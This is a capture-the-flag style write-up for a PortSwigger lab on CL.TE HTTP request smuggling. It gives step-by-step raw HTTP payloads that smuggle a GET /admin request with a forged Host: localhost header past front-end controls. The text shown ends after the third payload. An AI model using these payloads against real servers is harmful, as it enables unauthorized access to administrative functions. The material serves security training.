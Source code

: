 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te


## Quick Solution
This lab is divided in two parts. In the first part the goal is to access the ``/admin`` page, in the second part the goal is to delete a user. So two different requests must be sent. Payloads in the next paragraph.


## Solution
1. Try to visit ``/admin`` and observe that the request is blocked.
2. Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
3. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
4. Issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```
5. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```